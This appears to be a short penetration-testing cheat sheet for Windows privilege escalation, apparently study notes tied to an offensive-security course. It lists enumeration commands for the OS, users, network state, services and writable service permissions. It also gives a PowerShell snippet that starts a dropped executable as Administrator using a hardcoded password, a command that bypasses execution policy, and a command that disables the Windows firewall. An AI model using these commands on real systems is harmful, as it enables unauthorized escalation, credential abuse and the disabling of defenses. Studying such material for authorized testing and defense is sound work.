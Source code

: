 #### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`

`sc query type= service`

`sc qc <SERVICE NAME>`
  
  
`wmic useraccount where name='robert' get sid`


## Services Permissions

Write access (w)
surpress errors (u)
verbose (v)
Omit banner (q)
Specify name of service (c) - * indicates wildcard
Only process directories or top level keys (d)

`accesschk.exe -uwdqs Users c:\ /accepteula`

`accesschk.exe -uwcqv "Authenticated Users" * /accepteula`



## Powershell Exploit (Page 360 in PWK)

```
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
```

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1


### Other Useful Commands

> netsh firewall set opmode mode=DISABLE

